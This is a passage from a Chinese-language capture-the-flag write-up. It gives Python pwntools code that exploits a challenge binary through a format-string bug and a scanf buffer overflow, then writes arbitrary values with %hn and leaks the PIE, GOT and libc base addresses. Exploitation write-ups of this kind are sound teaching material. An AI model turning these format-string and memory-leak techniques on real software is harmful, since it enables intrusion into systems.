 這邊可以看到，實際上輸入 command 的時候是可以輸入 10 個字元的，而 `strncmp` 又不會因為多輸入而比較錯誤，所以我們只要透過以下三個 Payload，就可以達成把 cnt 覆蓋成 5 的目的：

```python
# def send_cmd2srv(buf: str, cmd: str, payload: bytes = b"")

send_cmd2srv("local", f"write%7$lx")                      # 透過 leak ptr 的位置計算出 cnt 的位置
send_cmd2srv("local", "read", b"_"*16 + p64(ADDR_CNT))    # 透過 scanf 的 buffer overflow 把 cnt 位置寫到 stack 上
send_cmd2srv("local", "write%16$n")                       # Format String Vuln 寫入 5 的數值
```

擴大到 5 的次數後我們就可以完整的使用 Format String Vuln 把 cnt 擴大成更大的數字。因為不知道需要幾次才夠，這邊就簡單的弄成 `0x2000`：

```python
# def set_addr_on_stack(addr1: int)

def frt_write_value2addr(addr: int, value: int):
    # Write 4 byte a time
    bits = [ 
        value & 0xFFFF, 
        (value >> 16) & 0xFFFF,
        (value >> 32) & 0xFFFF,
        (value >> 48) & 0xFFFF,
    ]

    for i in range(4):
        if bits[i] == 0:
            continue
        # Setup Addr in Memory
        set_addr_on_stack(addr+i*2)
        
        # Prepare Format String
        payload = f"%{bits[i]}c%16$hn\n"

        # Write to Global
        send_cmd2srv("global", "read", payload.encode())
        send_cmd2srv("global", "write")   

frt_write_value2addr(ADDR_CNT, 0x2000)
```

#### 洩漏 Libc Base Address

因為 `__libc_start_main` 被抹掉了，所以不能像 fullchain-nerf 一樣直接用 format string vuln leak 出 `__libc_start_main` 的位置後直接計算 libc 的基值。但好在的是 PIE 的基值是沒有被抹掉的，我們可以透過 `__libc_csu_init` 算出 PIE 的 BASE 後，接著算出 got 位置，讀取其中的值後算出 libc 的基值：

```python
# 取得 PIE Base
send_cmd2srv("local", f"write%8$lx")
BASE_PIE = int(r.recv(17)[5:].decode(), 16) - 0x1800

# 取得 Printf GOT 的位置
ADDR_PRINTF_GOT = BASE_PIE + 0x116b + 0x2edd
set_addr_on_stack(ADDR_PRINTF_GOT)
send_cmd2srv("local", "write%16$s")
BASE_LIBC = u64(r.recv(11)[5:]+b"\x00"*2) - 0x64e10  # 0x25000, libc start position
```
